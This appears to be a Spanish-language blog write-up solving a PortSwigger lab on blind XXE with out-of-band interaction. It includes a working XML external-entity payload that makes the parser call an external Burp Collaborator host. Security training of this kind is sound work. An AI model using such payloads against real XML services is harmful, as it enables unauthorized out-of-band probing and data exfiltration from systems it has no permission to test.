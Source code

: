 ```yaml
---
title: "Blind XXE with out-of-band interaction"
description: "Laboratorio de Portswigger sobre XXE"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XXE
tags:
  - Portswigger Labs
  - XXE
  - Blind XXE with out-of-band interaction
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y `devuelve` cualquier `valor inesperado` en la respuesta. Puedes `detectar` la vulnerabilidad `blind XXE` provocando `out-of-band interactions` con un `dominio externo`. Para resolver el laboratorio, debemos utilizar una `entidad externa` para hacer que el analizador XML realice una `búsqueda DNS` y una `solicitud HTTP` hacia `Burp Collaborator`

---

## Guía de XXE

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XXE` [https://justice-reaper.github.io/posts/XXE-Guide/](https://justice-reaper.github.io/posts/XXE-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-3/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-3/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-3/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://7qyhremmrjqjtk32uztkk5jai1osci07.oastify.com"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-3/image_4.png)
